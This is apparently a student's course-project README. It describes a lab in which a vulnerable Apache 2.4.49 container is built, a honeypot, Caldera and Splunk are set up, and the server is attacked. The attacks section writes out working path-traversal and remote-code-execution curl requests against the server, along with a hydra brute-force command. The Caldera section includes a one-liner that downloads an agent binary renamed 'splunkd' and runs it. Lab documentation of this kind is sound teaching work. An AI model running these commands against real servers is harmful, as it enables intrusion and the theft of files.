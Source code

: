# ICS344-Project-Commands-and-codes

How we did the setup for everything in the project

 # 1-Docker:
the reason we wanted to install docker is because we needed to downgrade our apache service to something with known vulnerabilities we used the following commands to install it on the vm.

-sudo apt-get install -y docker.io

-sudo systemctl start docker & sudo systemctl enable docker

-docker –version (to make sure it is correctly installed)
 # 2-Apache 2.4.49:
 after installing docker we need to make a dockerfile with all the files and dependencies will go through the steps we did to set it up correctly
-nano DockerFile
-write in the dockerfile the following (FROM debian:latest
RUN apt-get update && \
    apt-get install -y wget build-essential libpcre3 libpcre3-dev libssl-dev libexpat1-dev && \
    wget https://archive.apache.org/dist/httpd/httpd-2.4.49.tar.gz && \
    wget https://archive.apache.org/dist/apr/apr-1.7.0.tar.gz && \
    wget https://archive.apache.org/dist/apr/apr-util-1.6.1.tar.gz && \
    tar -xzf httpd-2.4.49.tar.gz && \
    tar -xzf apr-1.7.0.tar.gz && \
    tar -xzf apr-util-1.6.1.tar.gz && \
    mv apr-1.7.0 httpd-2.4.49/srclib/apr && \
    mv apr-util-1.6.1 httpd-2.4.49/srclib/apr-util && \
    cd httpd-2.4.49 && \
    ./configure --enable-so --enable-ssl --with-mpm=event && \
    make && \
    make install

EXPOSE 80
CMD ["/usr/local/apache2/bin/httpd", "-D", "FOREGROUND"])
- after saving the file we need to build the image the containers will be using with the following command 'sudo docker build -t apache-2.4.49'
- -then use 'sudo docker run -d -p 8080:80 apache-2.4.49' to make the container with apache running on port 8080

# 3- Honeypot:
for the honeypot we picked HoneyUp which works okay with our service, but to be able to use honeyup we need to install nginx among other things to be able to fully use it and have logs to read after.

- installing nginx using the following command sudo apt install nginx -y

- using this command  sudo systemctl start nginx to make sure everything is running okay

- we need the rust toolchain which we installed using curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh

- and we needed rustup and cargo which we installed using sudo apt install cargo && sudo apt install rustup

- now we can install honeyup using git clone https://github.com/LogoiLab/honeyup.git

- cargo build –release so we can compile it.

# 4-Attack Tools:
we needed to install some tools that we might use for attacks and we used the following command

-sudo apt install nmap metasploit-framework hydra gobuster nikto -y
# 5-Caldera:
Caldera is a necessary part to complete the project so we followed these commands to install it correctly and making sure it runs without errors.

-git clone https://github.com/mitre/caldera.git --recursive

-pip3 install -r requirements.txt

-python3 server.py --insecure –build (use --build if it is running for the first time, after the first time you can remove it and it will run okay).

- to be able to run operations in caldera we need an agent the following code we used to make an agent (server 'http: //192. 168.112.129:8888' ;
curl-s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download › splunkd;
chmod +x splunkd;
./splunkd -server $server -group red -v)

# 6-Attacks

-we did the nmap scan on the target using (nmap --script vuln -p 8080 192.168.206.129).

-one of the vulnerabilities in apache 2.4.49 is remote code execution we used this code to attack curl -X POST "http://192.168.206.129:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" -d "echo RCE Test"

-one of the vulnerabilities in apache 2.4.49 is path traversal we used this code to attack curl http://192.168.206.129:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd

-one of the vulnerabilities in apache 2.4.49 is the fact that http trace is enabled we cannot really use it as an attack without having something else to use it with but we did use a command to see if it is enabled or not with curl -X TRACE http://192.168.206.129:8080 -I

-using kali tools we managed to brute force our apache server using hydra tool with the following code hydra -l admin -P /usr/share/wordlists/rockyou.txt -t 4 192.168.206.129 -s 8080 http-get / 


#7- SIEM dashboard (SPLUNK)

-after accessing their website and signing up we obtained this link (wget -O splunk-9.3.2-d8bb32809498-linux-2.6-amd64.deb "https://download.splunk.com/products/splunk/releases/9.3.2/linux/splunk-9.3.2-d8bb32809498-linux-2.6-amd64.deb") you can run this in the terminal in kali linux

-after finishing that run the command sudo dpkg -i splunk-8.x.x-xxxxxx-linux-2.6-amd64.deb to extract and install it


# THAT'S IT
